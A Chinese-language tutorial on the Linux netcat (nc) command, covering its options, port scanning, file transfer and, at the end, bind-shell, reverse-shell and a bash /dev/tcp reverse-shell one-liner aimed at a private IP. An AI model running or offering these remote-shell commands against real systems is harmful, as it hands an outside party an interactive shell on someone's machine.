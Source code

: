 # Linux好用命令之nc命令

nc是网络工具中的瑞士军刀

**nc命令** 全称**netcat**，用于TCP、UDP或unix域套接字(uds)的数据流操作，它可以打开TCP连接，发送UDP数据包，监听任意TCP 和UDP端口，同时也可用作做端口扫描，支持IPv4和IPv6，与Telnet的不同在于nc可以编写脚本。

### 语法

```
nc [-hlnruz][-g<网关...>][-G<指向器数目>][-i<延迟秒数>][-o<输出文件>][-p<通信端口>]
[-s<来源位址>][-v...][-w<超时秒数>][主机名称][通信端口...]
```

### 选项

```
-4 只使用IPV4
-6 只使用IPV6
-c 使用tls连接或者监听
-D 启用socket调试开关
-g <网关> # 设置路由器跃程通信网关，最多可设置8个。
-G<指向器数目> # 设置来源路由指向器，其数值为4的倍数。
-h 在线帮助。
-i<延迟秒数> 设置时间间隔，以便传送信息及扫描通信端口。
-l 使用监听模式，管控传入的资料。
–k 强制 nc 在其当前连接关闭后侦听另一连接。（持续监听）
-n 直接使用IP地址，而不通过域名服务器。
-o<输出文件> # 指定文件名称，把往来传输的数据以16进制字码倾倒成该文件保存。
-p<通信端口> # 设置本地主机使用的通信端口。
-r 乱数指定本地与远端主机的通信端口。
-s<来源位址> # 设置本地主机送出数据包的IP地址。
-u 使用UDP传输协议。
-v 显示指令执行过程。
-w<超时秒数> # 设置等待连线的时间。
-z 使用0输入/输出模式，只在扫描通信端口时使用。
```

### 实例

#### **TCP端口扫描**

```
[root@localhost ~]# nc -v -z -w2 192.168.0.3 1-100 
192.168.0.3: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.0.3] 80 (http) open
(UNKNOWN) [192.168.0.3] 23 (telnet) open
(UNKNOWN) [192.168.0.3] 22 (ssh) open
```

扫描192.168.0.3 的端口 范围是 1-100 **扫描UDP端口**

```
[root@localhost ~]# nc -u -z -w2 192.168.0.3 1-1000  # 扫描192.168.0.3 的端口 范围是 1-1000
```

#### **扫描指定端口**

```
[root@localhost ~]# nc -nv 192.168.0.1 80 # 扫描 80端口
(UNKNOWN) [192.168.0.1] 80 (?) open
y  //用户输入
```

查看从服务器到目的地的出站端口 443 是否被防火墙阻止

```
nc -vz acme-v02.api.letsencrypt.org 443 -w2
# Ncat: Version 7.50 ( https://nmap.org/ncat )
# Ncat: Connected to 23.77.214.183:443.
# Ncat: 0 bytes sent, 0 bytes received in 0.07 seconds.
```

#### **文件传输**

```
# 接收方提前设置监听端口与要接收的文件名（文件名可自定义）：
nc -lp 8888 > node.tar.gz

# 传输方发文件：
nc -nv 192.168.75.121 8888  < node_exporter-1.3.1.linux-amd64.tar.gz
# ⚠️ 注意：192.168.75.121是接收方的ip地址。
```

```
# 如果希望文件传输结束后自动退出，可以使用下面的命令：
nc -lp 8888 > node.tar.gz
nc -nv 192.168.75.121 8888 -i 1 < node_exporter-1.3.1.linux-amd64.tar.gz
# ⚠️ 注意：-i 表示闲置超时时间
```

#### **远程控制**

```
# 正向控制，被控端主动设置监听端口及bash环境，控制端连接，如果有防火墙，需开放端口，否则会被拦截。
# 被控制端执行下面的命令：
nc -lvnp 8888 -c bash
# 控制端执行下面的命令：
nc 192.168.75.121 8888
```

```
# 反向控制，控制端设置监听端口，被控端主动连接控制端的ip及端口，并提供bash环境。
# 控制端执行下面的命令：
nc -lvnp 8888
# 被控制端执行下面的命令：
nc 192.168.75.121 8888 -c bash
```

#### **反弹shell**

```
# 控制端执行下面的命令：
nc -lvnp 8888
# 被控端执行下面的命令:
bash -i &> /dev/tcp/192.168.75.121/8888 0>&1
```
